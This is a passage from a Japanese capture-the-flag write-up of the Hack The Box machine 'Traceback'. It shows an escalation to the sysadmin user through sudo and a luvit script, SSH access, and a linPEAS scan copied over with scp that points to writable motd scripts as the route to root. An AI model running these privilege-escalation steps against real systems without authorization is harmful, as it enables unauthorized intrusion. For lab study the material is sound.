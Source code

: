 これを `.bash_history` に従って以下のように実行すると無事に正常終了します。

```
$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
```

これで `sysadmin` に `ssh` 出来るようになって `user.txt` が取れました！

```
$ ssh -i ~/.ssh/traceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Aug 21 00:47:10 2020 from 10.10.14.11
$ bash
sysadmin@traceback:~$ cat user.txt 
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

### root login

まず [`linPEAS`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) を流します。

クライアントマシンでダウンロード、 scp でターゲットマシンに送りつけます。
ターゲットマシンで `curl` or `wget` が使えれば楽なのですが、 名前解決で失敗していたのでこうしています。

```
$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
$ chmod u+x linpeas.sh
$ scp -i ~/.ssh/traceback linpeas.sh sysadmin@10.10.10.181:/home/sysadmin/linpeas.sh
```

実行すると以下の辺りが黄色くなっています。

```
sysadmin@traceback:~$ ./linpeas.sh 

... 省略 ...

[+] Interesting GROUP writable files (not in Home) (max 500)                  
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group sysadmin:                                                             
/etc/update-motd.d/50-motd-news                                               
/etc/update-motd.d/10-help-text                                               
/etc/update-motd.d/91-release-upgrade                                         
/etc/update-motd.d/00-header                                                  
/etc/update-motd.d/80-esm                                                     
/home/webadmin/note.txt                                                       
/dev/mqueue/linpeas.txt    

... 省略 ...
```
